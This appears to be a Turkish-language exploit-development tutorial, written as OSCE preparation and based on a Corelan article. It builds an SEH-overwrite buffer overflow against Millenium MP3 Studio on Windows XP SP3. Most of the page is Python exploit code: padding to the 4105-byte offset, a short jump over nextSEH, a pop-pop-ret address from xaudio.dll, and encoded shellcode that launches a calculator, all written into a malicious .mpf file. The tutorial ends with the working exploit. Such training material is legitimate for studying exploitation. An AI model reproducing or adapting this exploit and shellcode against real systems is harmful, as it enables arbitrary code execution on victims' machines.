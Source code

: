 # Exploit Writing Tutorial Part 4 : SEH Based Exploits

`OS` : Windows XP SP3

`Vulnerable App`: [Millenium MP3 Studio](../vulnerable_softwares/Millenium%20MP3%20Studio/millennium.exe)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video - OSCE Hazırlık 0x0A | Corelan.be Overflow 0x05 SEH and Moaar !` : https://www.twitch.tv/videos/705125530

`Video - OSCE Hazırlık 0x0A | Corelan.be Overflow 0x05 SEH and Moaar Part 2` : https://www.twitch.tv/videos/705213599

`Source` : https://www.corelan.be/index.php/2009/07/28/seh-based-exploit-writing-tutorial-continued-just-another-example-part-3b/

`Not` : Öncelikle eğer `SEH Based Exploit` hakkında herhangi bir bilginiz yoksa [bir önceki yazıyı](./Corelan.be_Overflow_0x03.md) okumanızı öneririm.

Programımız `.mpf` uzantılı dosyaları açabilmekteymiş. Biz de bu uzantıya sahip bir dosyanın içerisine exploitimizi yazarak hesap makinesi çalıştırmaya çalışacağız. Exploitimizin giriş kısmını hemen hızlıca yazalım

```python
# Millenium MP3 Studio SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

exploit = ""

# File path
file = "XP/exploit.mpf"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Evet bu kısmı hazırladıktan sonra programımıza 5000 adet `A` karakteri gönderelim bakalım crash olacak mı ? Burda programımız `http://`'ye göre birşeyleri parse ediyor veya biryerlere istek atıyor sanırım. Bu yüzden en başa `http://` yazmamız gerekecek

```python
...
padding = b"http://" + b"A"*5000
exploit = padding
...
```

Programımızı debugger üzerinde başlatalım ve dosyamızı açalım.

![first crash](img/0x04/1.png)

![2](img/0x04/2.png)

Ve gördüğümüz üzere nextSEH ve SEH alanına `A` karakterlerimizi yazmayı başardık. O zaman hızlıca offsetimizi hesaplayalım.

```bash
>>> from pwn import *
>>> offset = cyclic_gen()
>>> offset.get(5000)
```

![3](img/0x04/3.png)

Şimdi değerimizi bulalım

```bash
>>> offset.find(b'pcab')
(4105, 0, 4105)
>>>
```

4105 karakterden sonra `nextSEH` adresine yazabiliyormuşuz. Bunu bir de test edelim...

```python
# Millenium MP3 Studio SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

offset = 4105
padding = b"http://"
padding += b"A"*offset
nextSEH = b"BBBB"
SEH = b"CCCC"

exploit = padding + nextSEH + SEH

# File path
file = "XP/exploit.mpf"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

![5](img/0x04/5.png)

![4](img/0x04/4.png)

İstediğimiz değerleri başarılı bir şekilde nextSEH ve SEH üzerine yazabildik.  Artık nextSEH üzerine yazacağımız `jmp` işlemini ve SEH üzerine yazacağımız `pop pop ret` komutunu gerçekleştiren adresi bulabiliriz.

Ancak burda `jump` işlemi sırasında dikkat etmemiz gereken birşey var, o da `0012F934`'de `null` karakterler olması. Shellcode bunun üzerine yazılacak mı yoksa arada `null` karakterler mi kalacak diye bir kontrol edelim.

```python
...
exploit = padding + nextSEH + SEH + b"D"*50
...
```

![6](img/0x04/6.png)

Dşündüğümüz gibi arada `null` karakterler kalıyor. O yüzden `SEH` adresinden hemen sonraya Shellcode yazıp sıçrayamayız. `null` karakterlerden sonra yazıp oraya sıçramamız gerekecek. Yaklaşık bi 26 byte ileriye yazmak gerek ancak sağlam olsun diye biz 32 byte uzağa shellcode yazalım. JMP işleminde de 32 byte sıçrayarak `NOP` karakterlerin son kısımlarına denk gelmiş olacağız tahminen.

```python
...
nextSEH = b"\xeb\x20\x90\x90" # \xeb = jmp , \x20 = 32 byte
...
```

Şimdi `mona.py` yardımı ile `pop pop ret` işlemi yapan bir adres bulalım

    !mona seh -cpb '\x00' komutu ile içerisinde null byte olmayan `pop pop ret` işlemini gerçekleştiren adresleri getirecektir.

![seh](img/0x04/7.png)

SafeSEH, ASLR korumaları `false` olan ve ret 'den sonra herhangi birşey yazmayan bir adres seçelim.

Daha sonra exploitimizi tamamlayalım.

```python
# Millenium MP3 Studio SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

offset = 4105
padding = b"http://"
padding += b"A"*offset

nextSEH = b"\xeb\x20\x90\x90" # jmp 0x20
SEH = b"\x87\x50\x01\x10"     # pop esi, pop edi, ret - xaudio.dll

exploit = padding + nextSEH + SEH + b"\x90"*32 + calc

# File path
file = "XP/exploit.mpf"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Ve çalışmaya hazır :)

![exploit](img/0x04/exploit.gif)
